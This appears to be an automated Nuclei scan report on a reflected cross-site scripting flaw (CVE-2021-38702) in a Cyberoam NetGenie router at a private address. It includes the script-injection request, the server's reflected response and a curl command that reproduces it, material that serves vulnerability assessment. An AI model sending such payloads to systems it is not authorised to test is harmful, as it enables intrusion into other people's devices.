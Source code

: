 ### Cyberoam NetGenie Cross-Site Scripting (CVE-2021-38702) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-38702**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/tweb/ft.php?u=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:02 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Cyberoam NetGenie Cross-Site Scripting |
| Authors | geeknik |
| Tags | cve, cve2021, cyberoam, netgenie, xss, router |
| Severity | medium |
| Description | Cyberoam NetGenie C0101B1-20141120-NG11VO devices through 2021-08-14 are susceptible to reflected cross-site scripting via the 'u' parameter of ft.php. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-38702](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-38702) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /tweb/ft.php?u=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 204
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/tweb/ft.php?u=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://seclists.org/fulldisclosure/2021/aug/20
- https://nvd.nist.gov/vuln/detail/cve-2021-38702
- http://www.cyberoamworks.com/netgenie-home.asp

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36' 'http://192.168.198.179:8080/tweb/ft.php?u=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
